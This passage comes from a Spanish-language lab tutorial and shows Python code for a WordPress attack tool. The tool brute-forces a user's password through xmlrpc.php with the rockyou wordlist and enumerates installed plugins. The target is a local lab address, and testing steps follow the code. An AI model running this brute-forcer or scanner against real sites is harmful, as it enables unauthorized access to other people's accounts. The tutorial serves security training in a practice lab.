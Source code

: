 ```python
            
            if 'incorrectos.' not in response.text:
                print(f"[+] La contraseña del usuario {self.usuario} es {password}")
                sys.exit(0)
    
    def enumerar_plugins(self):
        for plugin in self.listado_plugins:
            url = f"{self.url_plugins}{plugin}/readme.txt"
            response = requests.get(url)
            if response.status_code == 200:
                print(f"[+] Plugin encontrado: {plugin}")

url_xmlrpc = 'http://172.17.0.2/wordpress/xmlrpc.php'
usuario = 'luisillo'
diccionario = 'rockyou.txt'
url_plugins = 'http://172.17.0.2/wordpress/wp-content/plugins/'
listado_plugins = [
    "jetpack",
    "akismet",
    "contact-form-7",
    "woocommerce",
    "wordfence",
    "yoast-seo",
    "elementor",
    "w3-total-cache",
    "updraftplus",
    "wpforms",
    "wpmu-dev-forminator"
]

objeto_ataque = Herramienta(url_xmlrpc, usuario, diccionario, url_plugins, listado_plugins)

eleccion = input("Escribe un 1 si quieres hacer fuerza bruta, y 2 si quieres enumerar plugins: ")

if eleccion == '1':
    objeto_ataque.fuerza_bruta()
elif eleccion == '2':
    objeto_ataque.enumerar_plugins()
else:
    print("Datos incorrectos, debes poner un 1 o un 2")
```

---

### **Paso 8: Pruebas**

Guardamos el script como `herramienta_oo.py` y lo probamos:

1. **Preparación del diccionario**:
   - Aseguramos que `rockyou.txt` está en el escritorio.
   - Como en el caso original, la contraseña correcta es `LUIS1981`. Si no está en `rockyou.txt`, la añadimos manualmente:
     - Abrimos `rockyou.txt` con un editor (por ejemplo, `nano rockyou.txt`).
     - Añadimos `LUIS1981` en una línea y guardamos.
